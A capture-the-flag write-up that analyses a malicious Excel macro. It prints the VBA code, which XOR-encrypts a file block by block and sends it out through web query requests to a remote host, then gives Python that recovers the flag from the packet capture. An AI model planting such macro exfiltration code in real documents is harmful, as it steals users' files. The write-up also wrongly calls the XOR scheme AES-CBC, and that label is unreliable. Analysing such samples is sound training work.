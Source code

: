# Challenge 59 - Macro Economics
## The 2 Provided Files
- exfil.pcap, we can use Wireshark to open the file to reveal request details
- important_spreadsheet.xlsm, an Excel with VBA code inside

## The VBA code
- sendFile is the main function, by inspecting it, it is a loop to process a plaintext by blocks of 8 characters at a time with some cipher encryption
- the encryption Cipher function used XOR operation, suggesting it's like an AES
- Considering the reuse of the string at cell A1 for each loop, we can find it's AES (CBC mode)

        Function sendFile(b() As Byte) As String
          Dim tmpStr As String
          Dim midStr As String
          Dim out As String
          Dim urlStr As String
          Dim code As String
          Dim i
          urlStr = "URL;http://10.13.37.3/"
          req (urlStr)     'initialization to update cell A1 as "some" processed value
          code = Range("A1").Value
          tmpStr = StrConv(b(), vbUnicode)
          For i = 1 To 256 Step 8
            midStr = Mid(tmpStr, i, 8)    ' process the plain text by 8 characters a time, like a block
            out = Cipher(midStr, code)    ' do XOR operation to the block and "code"
            out = ByteArrayToHexStr(StrConv(out, vbFromUnicode))
            urlStr = "URL;http://10.13.37.3/?" & CStr(out)    ' use the XOR-ed text to send request, to get another "processed value" at A1
            req (urlStr)
            code = Range("A1").Value
          Next i
          sendFile = tmpStr
        End Function

        Function req(url As String)
          With ActiveSheet.QueryTables.Add(Connection:=url, Destination:=Range("A1"))
            .PostText = ""
            .PreserveFormatting = True
            .RefreshOnFileOpen = False
            .BackgroundQuery = False
            .RefreshStyle = xlOverwriteCells
            .WebSelectionType = xlEntirePage
            .WebPreFormattedTextToColumns = True
            .Refresh BackgroundQuery:=False
            .WorkbookConnection.Delete
            End With
        End Function

        Public Function Cipher(Text As String, Key As String) As String
          Dim bText() As Byte
          Dim bKey() As Byte
          Dim TextUB As Long
          Dim KeyUB As Long
          Dim TextPos As Long
          Dim KeyPos As Long
          
          bText = StrConv(Text, vbFromUnicode)
          bKey = StrConv(Key, vbFromUnicode)
          TextUB = UBound(bText)
          KeyUB = UBound(bKey)
          For TextPos = 0 To TextUB
            bText(TextPos) = bText(TextPos) Xor bKey(KeyPos)    ' XOR operation of each character
            If KeyPos < KeyUB Then
              KeyPos = KeyPos + 1
            Else
              KeyPos = 0
            End If
          Next TextPos
          Cipher = StrConv(bText, vbUnicode)
        End Function

## Flow Diagram with AES (CBC mode) Demonstration
- Red: excel corresponding function
- Green: what the request does for each block of plaintext
- Brown: To solve the plaintext, simply do (Param[i+1] XOR Response[i])
- Note: the response actually have 16 bytes instead of 8 bytes, but it doesn't matter we just take the first 8
![alt text](aes_cbc_explanation.png)

## Sample Python Code
    from pwn import xor
    param = [
        "184D5825262C6336",
        "6426435B4B626833",
        "045A125516100301",
        "10161F05120C0B0F",
        "454D53590B5D0507",
        "5702161C19004442",
        "034646154F0F5259",
        "52561D101614081C",
        "1156516D60641047",
        "1D150147420D564D",
        "03091A194B5D0315",
        "574E190C124F141B",
        "0557144603171757",
        "1D575C071208191C",
        "0902421A0844411D",
        "54074E0D004B565E",
        "1803510A0413104B",
        "667F71510155115B",
        "16530C071C561A49",
        "6D791C5A0E044C09",
        "5D0C402754070412",
        "00552D0A0F064A04",
        "0B113F7F2608575A",
        "0800134B02180606",
        "024306065E142118",
        "5547500509415A05",
        "4C7F38320C041A11",
        "5E411917570A050F",
        "165A563A5C001E15",
        "5D0D4F1F53011D19",
        "61701B18533F2836",
        "233C23605A41167E",
    ]
    response = [
        b"7bxvco1sj8gwpr92",
        b"0uctdhbg9rzyvq57",
        b"l3aupyodmehvzfk6",
        b"0upkfmbanov57z9x",
        b"6m2yx8fu9qd7kr4c",
        b"2v6hqa0b9t3w5fjd",
        b"n35aom7yfqzd04iu",
        b"93md6gizvlypw1ox",
        b"txqgj3u5d9woz7na",
        b"x5h3by9m0cre42k7",
        b"ehvuk4majq2tg10c",
        b"8nmdwociyse0lab2",
        b"j9sfkvy3pwqxoeah",
        b"nw5s2kvijzqref9c",
        b"efbxmd4n5i8rkgya",
        b"1cnko9v30dp2rexf",
        b"qp5oawce3uhvml21",
        b"lu94s012goyt8iba",
        b"bsohq3igya5dr42n",
        b"gsz6oc7m9583krfi",
        b"mb4xgiep72kcs1hv",
        b"l0rgne84jszcqxu6",
        b"xl5uba3zshrcdmjn",
        b"qofkayrevwml9gdx",
        b"jcora4up78kbqs5t",
        b"43prh2zl0g9djqos",
        b"8u2yiaj1pqwneb6s",
        b"759d2iwjhyqpl1vb",
        b"btvq9en5wgy1r4dx",
        b"4yol2gx7mhijzur0",
        b"kz47slmu1cdrfhi6",
        b"qyw3zn9tmarix507",
        b"vmbcl8rnxked2zf9",
    ]
    res = b''
    for p, r in zip(param, response):
        res += xor(bytes.fromhex(p), r[:8])
    print(res)
    # b'// SECRETS //\n\nThis file contains a secret that must be kept safe. \n\nWere it to fall into the wrong hands it could be used for misdeeds.\n\nHere it comes.\n\nflag{d0nt_3nable_macr0s}\n\nDid you catch it? That was it\n\nKeep it secret. Keep it safe.\n\n// SECRETS //\n'